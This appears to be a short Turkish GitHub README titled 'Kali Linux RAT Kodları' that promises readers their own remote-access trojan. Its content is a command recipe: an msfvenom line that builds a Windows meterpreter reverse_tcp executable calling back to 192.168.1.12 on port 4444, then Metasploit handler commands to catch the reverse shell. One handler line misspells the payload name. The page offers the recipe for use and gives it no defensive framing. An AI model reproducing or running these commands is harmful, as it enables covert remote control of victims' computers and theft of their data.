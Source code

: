 # Kali Linux RAT Kodları
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın

**msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe**
**msfconsole**
**use exploit/multi/handler**
**set PAYLOAD windows/meterpreter/revese_tcp**
**set LHOST makineipsi**
**set LPORT 4444**
**run**
